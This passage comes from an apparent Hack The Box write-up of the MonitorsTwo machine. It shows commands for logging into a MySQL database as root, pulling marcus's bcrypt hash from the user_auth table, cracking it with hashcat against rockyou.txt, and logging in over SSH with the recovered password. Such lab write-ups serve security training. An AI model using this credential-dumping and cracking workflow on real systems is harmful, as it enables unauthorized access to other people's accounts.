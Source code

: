 Lets login with: `mysql -h db -u root -proot cacti`

Looking around we find a table called `user_auth` which contains a password hash for user marcus: `$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C`

![htb_monitors2_db.png](../assets/monitorstwo_assets/htb_monitors2_db.png)

Now that we have this hash we can use hashcat to crack it:

```
┌──(ryan㉿kali)-[~/HTB/MonitorsTwo]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt -m 3200

hashcat (v6.2.6) starting

<SNIP>

$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
                                                          
Session..........: hashcat
Status...........: Cracked
```

`marcus:funkymonkey`

Lets use these credentials to SSH in as Marcus:

```
┌──(ryan㉿kali)-[~/HTB/MonitorsTwo]
└─$ ssh marcus@10.129.228.231        
marcus@10.129.228.231's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)
```

